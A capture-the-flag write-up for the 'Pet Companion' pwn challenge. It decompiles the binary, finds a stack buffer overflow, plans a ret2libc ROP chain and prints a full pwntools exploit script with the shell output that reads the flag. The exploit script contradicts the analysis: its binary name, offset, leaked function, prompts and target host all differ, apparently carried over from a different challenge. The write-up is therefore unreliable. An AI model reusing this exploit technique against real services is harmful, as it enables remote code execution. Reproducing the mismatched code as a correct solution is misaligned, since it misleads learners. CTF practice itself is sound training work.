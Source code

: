 solved by vulnx https://github.com/VulnX :

challenge files:

[pwn_pet_companion.zip](./pwn_pet_companion.zip)

# Analysis

On reversing with ghidra we get the following source:

```c
undefined8 main(void)

{
  undefined8 local_48;
  undefined8 local_40;
  undefined8 local_38;
  undefined8 local_30;
  undefined8 local_28;
  undefined8 local_20;
  undefined8 local_18;
  undefined8 local_10;

  setup();
  local_48 = 0;
  local_40 = 0;
  local_38 = 0;
  local_30 = 0;
  local_28 = 0;
  local_20 = 0;
  local_18 = 0;
  local_10 = 0;
  write(1,"\n[!] Set your pet companion\'s current status: ",0x2e);
  read(0,&local_48,0x100);
  write(1,"\n[*] Configuring...\n\n",0x15);
  return 0;
}
```

# Vulnerability

We have a really obvious buffer overwrite vulnerability here. Our buffer is only 8 * 8 = 64 bytes long whereas we can store 0x100 (256) characters in it.

But the real question is what can we do wit the vuln, let's run checksec and see what attacks are feasible:

```bash
$ checksec pet_companion
[*] '/home/vulnx/Games/CTFs/Cyber Apocalypse/pwn/Pet Companion/challenge/pet_companion'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    RUNPATH:  b'./glibc/'
```

- No canary

- No PIE

Seems good. Our buffer is 64 bytes, RBP will be an additional 8 bytes, so the total offset to RIP would be 72. So we can redirect code execution, but where to go to?

Since there is no `win` function for us, we have to rely on the good old ret2system technique ( thankfully we have the libc file )

But the remote server has ASLR enabled which means, to get the exact address of `system()` we will need a libc leak. To get a leak we can use the GOT table via the following ROP chain (gadgets from the binary since PIE is disabled):

- pop rdi ; ret

- 0x1 [ stdout file descriptor ]

- pop rsi ; pop r15 ; ret ( due to unavailability of better gadget )

- GOT['write'] (or any other GOT entry)

- junk value (goes into r15)

- PLT['write'] ( call : write(1, GOT['write'], RDX) )

- exe.sym.main ( restart the program to avoid the crash and get another BoF )

Since RDX is already a high value (can be found via inspecting it in GDB), we don't necessarily need to change it.

After we get the leak we can get libc base via:

```python
libc.address = leak - libc.sym.write
```

and send the following ROP chain for the next BoF:

- pop rdi ; ret

- address to '/bin/sh'

- system()

# Exploit

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./rocket_blaster_xxx")
libc = exe.libc

context.binary = exe
context.terminal = ['tmux', 'splitw', '-h']

def conn():
    if args.LOCAL:
        r = process([exe.path])
        if args.DEBUG:
            gdb.attach(r)
    else:
        r = remote("83.136.250.140", 58876)

    return r


def main():
    r = conn()

    # good luck pwning :)
    offset = 40
    pop_rdi = 0x000000000040159f
    pop_rsi = 0x000000000040159d
    pop_rdx = 0x000000000040159b
    payload = flat({
        offset       : p64(pop_rdi),
        offset + 8   : p64(exe.got.puts),
        offset + 16  : p64(exe.plt.puts),
        offset + 24  : p64(exe.sym.main)
        })

    r.clean(timeout=2)
    r.sendline(payload)
    r.recvuntil(b'testing..\n')
    leak = u64(r.recvline().strip().ljust(8, b'\x00'))
    print(f'{hex(leak)=}')
    libc.address = leak - libc.sym.puts
    print(f'{hex(libc.address)=}')

    payload = flat({
        offset      : p64(pop_rdi),
        offset + 8  : p64(next(libc.search(b'/bin/sh\x00'))),
        offset + 16 : p64(pop_rdi+1),
        offset + 24 : p64(libc.sym.system)
        })

    r.sendlineafter(b'XX!\n\n>> ', payload)

    r.interactive()


if __name__ == "__main__":
    main()

```

```bash
$ python solve.py

[+] Opening connection to 94.237.62.244 on port 46452: Done
hex(leak)='0x7f91426740f0'
hex(libc.address)='0x7f9142564000'
[*] Switching to interactive mode
$ id
uid=100(ctf) gid=101(ctf) groups=101(ctf)
$ whoami
ctf
$ ls
core
flag.txt
glibc
pet_companion
$ cat flag.txt
HTB{c0nf1gur3_w3r_d0g}
```

# Flag

`HTB{c0nf1gur3_w3r_d0g}`